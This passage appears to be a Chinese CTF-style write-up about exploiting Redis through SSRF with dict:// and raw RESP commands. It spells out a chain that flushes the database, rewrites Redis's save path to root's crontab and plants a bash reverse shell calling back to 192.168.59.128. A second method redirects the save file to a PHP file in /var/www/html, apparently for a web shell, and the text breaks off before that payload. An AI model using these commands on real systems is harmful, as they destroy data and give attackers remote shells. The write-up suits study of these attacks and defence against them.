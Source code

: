 经过我长时间的测试！ 发现可能是redis写 dbfilename写出二进制格式的文件内容没法执行！

![image-20210924114940514](https://gitee.com/taochiyu/blogimage/raw/master/img/20210924114940.png)

好像没发执行！ 



```
# 清空 key
dict://172.72.23.27:6379/flushall

# 设置要操作的路径为定时任务目录
dict://172.72.23.27:6379/config set dir /var/spool/cron/crontabs/

# 在定时任务目录下创建 root 的定时任务文件
dict://172.72.23.27:6379/config set dbfilename root

# 写入 Bash 反弹 shell 的 payload
dict://172.72.23.27:6379/set x "\n* * * * * /bin/bash -i >%26 /dev/tcp/192.168.59.128/2333 0>%261\n"

# 保存上述操作
dict://172.72.23.27:6379/save
```

再反弹shell上面 因为是写入定时任务！ 这里就出现一个问题！ 这个定时任务文件内容无法执行！



不知道怎么办了！吃饭吃饭！🐱‍👓🐱‍👓🐱‍👓🐱‍👓



#### 方法2

```
*2\r
$4\r
auth\r
$30\r
welcometowangdingbeissrfme6379\r
*1\r
$8\r
flushall\r
*4\r
$6\r
config\r
$3\r
set\r
$3\r
dir\r
$13\r
/var/www/html\r
*4\r
$6\r
config\r
$3\r
set\r
$10\r
dbfilename\r
$27\r
upload_like_scy_forever.php\r
*3\r
$3\r
set\r
$1\r
x\r
$24\r
```